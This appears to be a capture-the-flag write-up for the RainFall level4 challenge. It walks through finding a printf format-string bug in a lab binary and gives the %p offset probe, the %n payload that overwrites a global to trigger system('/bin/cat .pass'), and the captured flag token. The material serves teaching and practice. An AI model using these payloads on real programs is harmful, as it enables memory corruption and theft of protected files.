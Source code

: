 level4 exploit

   ```bash
   ssh level4@<ip>
    System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
   RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
   No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
   level4@RainFall:~$ 
   ```

the p function print the param_1 which is the local_20c a buffer of 520 byt 

wee need to get to the m variable globale variable which must be 16930116 to get the seystem executed 

```bash
### GDB Disassembly with Comments for level4 ###

# Function: main
0x080484a7 <+0>:    push   %ebp                  # Prologue
0x080484a8 <+1>:    mov    %esp,%ebp             # Setup stack frame
0x080484aa <+3>:    and    $0xfffffff0,%esp      # Align stack to 16 bytes
0x080484ad <+6>:    call   0x8048457 <n>         # Call function n()
0x080484b2 <+11>:   leave                         # Epilogue
0x080484b3 <+12>:   ret                           # Return from main

# Function: n
0x08048457 <+0>:    push   %ebp                  # Prologue
0x08048458 <+1>:    mov    %esp,%ebp             # Setup stack frame
0x0804845a <+3>:    sub    $0x218,%esp           # Allocate 536 bytes on stack for buffer
0x08048460 <+9>:    mov    0x8049804,%eax        # Load stdin (FILE*) into eax
0x08048465 <+14>:   mov    %eax,0x8(%esp)        # 3rd arg of fgets: FILE*
0x08048469 <+18>:   movl   $0x200,0x4(%esp)       # 2nd arg of fgets: size 512
0x08048471 <+26>:   lea    -0x208(%ebp),%eax      # Buffer address
0x08048477 <+32>:   mov    %eax,(%esp)            # 1st arg of fgets: buffer
0x0804847a <+35>:   call   0x8048350 <fgets@plt>  # Call fgets(buf, 512, stdin)

0x0804847f <+40>:   lea    -0x208(%ebp),%eax      # Load buffer again
0x08048485 <+46>:   mov    %eax,(%esp)            # Push buffer as arg
0x08048488 <+49>:   call   0x8048444 <p>          # Call p(buffer)

0x0804848d <+54>:   mov    0x8049810,%eax        # Load global var m into eax
0x08048492 <+59>:   cmp    $0x1025544,%eax       # Check if m == 0x1025544
0x08048497 <+64>:   jne    0x80484a5 <n+78>       # If not equal, skip next part
0x08048499 <+66>:   movl   $0x8048590,(%esp)      # Push "/bin/cat .../.pass" string
0x080484a0 <+73>:   call   0x8048360 <system@plt> # system("/bin/cat ...")
0x080484a5 <+78>:   leave                         # Epilogue
0x080484a6 <+79>:   ret                           # Return from n

# Function: p
0x08048444 <+0>:    push   %ebp                  # Prologue
0x08048445 <+1>:    mov    %esp,%ebp             # Setup stack frame
0x08048447 <+3>:    sub    $0x18,%esp            # Allocate 24 bytes on stack
0x0804844a <+6>:    mov    0x8(%ebp),%eax         # Load argument (char *str)
0x0804844d <+9>:    mov    %eax,(%esp)            # Push str to stack
0x08048450 <+12>:   call   0x8048340 <printf@plt> # printf(str)
0x08048455 <+17>:   leave                         # Epilogue
0x08048456 <+18>:   ret                           # Return from p
```

we are at **Format string attack** vulnerability we need to manipulate the printf to write to the m variable  "m == 0x1025544" // 16930112 in decimal 

what we can use :

| **Specifier** | **Meaning**                  | **Use in Exploits**                    |
|:----------|:-------------------------|:-----------------------------------|
| `%d`        | Signed decimal integer   | Leak stack/heap values             |
| `%u`        | Unsigned decimal integer | Leak memory addresses              |
| `%x`        | Hexadecimal (lowercase)  | Leak memory (common in exploits)   |
| `%X`        | Hexadecimal (uppercase)  | Same as `%x`                         |
| `%p`        | Pointer address          | Leak absolute addresses (critical) |
| `%s`        | String                   | Crash if invalid pointer (DoS)     |
| `%c`        | Character                | Rarely useful in exploits          |
| `%f`        | Floating-point           | Rarely useful                      |

here is link to find out more

<https://owasp.org/www-community/attacks/Format_string_attack>

lets test for format string vulnerability and define the offset:

```bash
python -c 'print("AAAA" + "%p "*20)' | ./level4
AAAA0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 
```

the 0x41414141 located at the 12th position lets conferm it :

```bash
level4@RainFall:~$ python -c 'print("AAAA" + "%12$p")' | ./level4
AAAA0x41414141
```

lets use `%n` format specifier to write the number of bytes 

Craft:

```bash
python -c 'print("\x10\x98\x04\x08" + "%16930112x%12$n")' | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

here is the cat .pass trigger 